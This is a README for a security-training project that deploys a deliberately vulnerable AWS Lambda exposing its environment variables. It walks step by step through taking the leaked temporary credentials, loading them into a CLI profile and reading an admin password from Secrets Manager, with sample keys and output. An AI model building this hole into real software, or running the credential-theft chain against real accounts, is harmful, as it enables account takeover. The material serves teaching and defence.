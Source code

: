 # Bad Lambda

Lambda function with API gateway and admin password in Secrets Manager
* Returns environment variables of container executing Lambda
* Includes AWS security token details which can be used to assume Lambda role
* The credentials can then be used to retrieve the admin password from Secrets Manager

# WARNING
* Designed for security training purposes
* Do not use on a production account
* Do not deploy to an account with AWS Secrets Manager enabled
* Could lead to AWS account takeover with excessive Lambda role policy permissions

## DEV environment

to deploy:

* use Terraform v11.7 to deploy:

```
terraform init
terraform workspace new dev
terraform plan
terraform apply
```

## USAGE

Browse to the API Gateway endpoint of the bad-lambda-dev function, provided as a Terraform output, e.g.:
https://r2pjhsdqp2.execute-api.eu-west-1.amazonaws.com/dev/

The environment variables of the Lambda function will be returned:
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5KqNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fCgbC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/OBIr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeL8X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/bad-lambda-dev
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/10/20/[$LATEST]214ec27edfb64248ac59a9865c03db62
AWS_EXECUTION_ENV=AWS_Lambda_python3.6
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_LAMBDA_FUNCTION_NAME=bad-lambda-dev
PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin
AWS_DEFAULT_REGION=eu-west-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xohK8M33/0mDQhW5wWHcNY7QShLsvbjIhhEXrUb+
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=eu-west-1
TZ=:UTC
AWS_ACCESS_KEY_ID=ASIA2L5BHF3A7UTREF4P
SHLVL=1
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
PYTHONPATH=/var/runtime
_X_AMZN_TRACE_ID=Root=1-5bcb0793-fbe56bdc6615401414db1a74;Parent=234bca345951c93f;Sampled=0
AWS_SECURITY_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
_HANDLER=printenv.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=128
_=/usr/bin/printenv
```

create a new profile in your ~/.aws/credentials file, using those values:
```
[badlambda]
aws_access_key_id = ASIA2L5BHF3A7UTREF4P
aws_secret_access_key = xohK8M33/0mDQhW5wWHcNY7QWFilxLSjIhhEXrUb+
aws_session_token = FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
region = eu-west-1
```
then use a recent version of the AWS command line interface:
```
$ aws secretsmanager list-secrets --profile badlambda
```
A list of secrets in the eu-west-1 region will be returned:
```
{
    "SecretList": [
        {
            "LastAccessedDate": 1539993600.0, 
            "SecretVersionsToStages": {
                "87AF04AE-B24B-4966-85B1-95C83B7D8717": [
                    "AWSCURRENT"
                ]
            }, 
            "Name": "admin-password-dev", 
            "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR", 
            "LastChangedDate": 1540027226.453
        }
    ]
}
```
Copy the secret ARN and paste into the command as below:
```
aws secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR" --profile badlambda
```
You will retrieve the secret value of the admin password:
```
{
    "Name": "admin-password-dev", 
    "VersionId": "87AF04AE-B24B-4966-85B1-95C83B7D8717", 
    "SecretString": "cDS41esC&Y7Dudwt4Uvrwo-�w", 
    "VersionStages": [
        "AWSCURRENT"
    ], 
    "CreatedDate": 1540027226.179, 
    "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR"
}
```
